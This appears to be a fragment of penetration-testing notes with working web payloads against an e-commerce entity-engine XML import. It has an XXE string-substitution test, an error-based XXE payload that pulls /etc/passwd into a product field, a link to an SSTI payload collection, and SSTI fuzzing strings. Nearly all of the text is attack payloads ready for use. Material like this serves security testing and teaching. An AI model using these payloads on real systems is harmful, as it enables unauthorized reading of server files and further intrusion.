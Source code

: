 <b>String substitution - note you should have "Vulnerable to XXE" in the response</b>
```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```

<b>Error based - placing XXE payload in a field that will cause an error, but will include the file in the error message</b>

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>&xxe;</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```

### SSTI
[Master List of SSTI Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

<b>Fuzzing

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
